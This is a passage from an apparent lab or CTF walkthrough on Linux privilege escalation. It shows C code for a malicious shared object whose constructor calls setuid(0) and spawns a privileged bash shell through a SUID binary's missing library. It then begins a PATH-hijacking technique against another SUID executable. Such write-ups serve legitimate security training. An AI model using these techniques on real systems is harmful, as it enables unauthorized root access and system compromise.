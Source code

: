 We find `home/user/.config/libcalc.so` is used by the executable but it does not exist. So we create  a `home/user/.config/libcalc.so` shared object with our code.

```bash
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

This code basically opens a shell, `-p` flag executes the command using the effecting uid (suid) i.e root , so we get a root shell.  

![/assets/images/posts/linuxprivesc/Untitled%206.png](/assets/images/posts/linuxprivesc/Untitled%206.png)

# Task 13 : SUID / SGID Executables - Environment Variables

On running `strings /usr/local/bin/suid-env` we find that it calls `service` exectable without the full path. So we can supply our own executable by editing the `PATH` variable.
